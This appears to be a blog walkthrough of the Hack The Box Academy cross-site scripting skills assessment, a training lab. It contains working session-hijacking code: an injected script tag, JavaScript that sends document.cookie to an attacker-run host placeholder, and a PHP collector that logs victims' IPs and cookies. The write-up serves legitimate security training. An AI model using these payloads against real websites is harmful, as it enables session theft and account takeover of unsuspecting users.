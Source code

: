 ```yaml
---
layout: post
title:  "Hack The Box - Academy - Cross Site Scripting Skills Assessment"
description: "Develop your Cross-Site Scripting (XSS) expertise with the Hack The Box - Academy - Cross Site Scripting Skills Assessment. Learn how to identify and exploit XSS vulnerabilities."
date:   2024-09-29 18:45
image:  /images/htb/cross-site-scripting/cross-site-scripting-logo.png
tags:   [xss,cbbh]
categories: [htbacademy]
---
```


### Explore this detailed walkthrough of Hack The Box Academy's Cross Site Scripting module.

><b>Overview:</b>
<br/><br/>
We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new Security Blog. In our Web Application Penetration Testing plan, we reached the part where you must test the web application against Cross-Site Scripting vulnerabilities (XSS).<br/><br/>
Start the server below, make sure you are connected to the VPN, and access the /assessment directory on the server using the browser:<br/><br/>
Apply the skills you learned in this module to achieve the following:<br/><br/>
 1 Identify a user-input field that is vulnerable to an XSS vulnerability.<br/>
 2 Find a working XSS payload that executes JavaScript code on the target's browser.<br/>
 3 Using the Session Hijacking techniques, try to steal the victim's cookies, which should contain the flag
<br/>
<b>Links:</b>
<br/>
<a href="https://academy.hackthebox.com/module/103/section/1011">Cross-Site Scripting (XSS)</a><br/>
<a href="https://jacozwarts.github.io/images/htb/cross-site-scripting/Cross_Site_Scripting_Xss_Module_Cheat_Sheet.pdf">Cross-Site Scripting (XSS) - Cheat Sheet</a>
<br/>

#### Installing XSStrike
<a href="https://github.com/s0md3v/XSStrike.git">Clone the XSStrike Repository from GitHub</a>
```
git clone https://github.com/s0md3v/XSStrike.git
```
```
cd XSStrike
pip install -r requirements.txt
```
```
python xsstrike.py -u "http://{TARGET}?id=1"
```


## Q1:  What is the value of the 'flag' cookie?

In this guide, we'll walk through how to extract the 'flag' cookie during the XSS skills assessment using the Hack The Box provided VM. Let's dive in!

#### 1. Set Up the Environment
Start by creating a temporary directory for our script and files. Run the following command to create the directory:
```
mkdir /tmp/tempserver
```
#### 2. Create the JavaScript to Capture the Cookie
Next, we'll write a script (script.js) that will extract the session cookie and send it to a web server we’ll set up shortly. This script will be injected into the vulnerable input fields to capture the cookie.
```
document.location='http://{HTB_VM_IPADDRESS}:{PORT}/index.php?c='+document.cookie;
new Image().src='http://{HTB_VM_IPADDRESS}:{PORT}/index.php?c='+document.cookie;
```
#### 3. Set Up the PHP Server
Now, let's create a PHP file that will handle the incoming requests. This php script will read the c query parameter, which will contain the cookie, and store it in a file called cookies.txt. Here’s the php script:
```
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
Use the below command to start your php server:
```
sudo php -S 0.0.0.0:{PORT}
```
You can use any available port. In my case, port 80 was already in use on the Hack The Box Virtual Machine, so I chose an alternate port.
#### 4. Inject the Payload
The next step is to craft a payload to inject into the form. We'll use the following payload for both the comment and website input fields:
```
"><script src=http://{HTB_VM_IPADDRESS}:{PORT}/script.js></script>
```
Replace {HTB_VM_IPADDRESS}:{PORT} with your VM's IP and Port you used when  address.
#### Capture the Flag
Submit the form with the injected payload. Afterward, check the cookies.txt file on your server to retrieve the session cookie. and flag.
<hr/>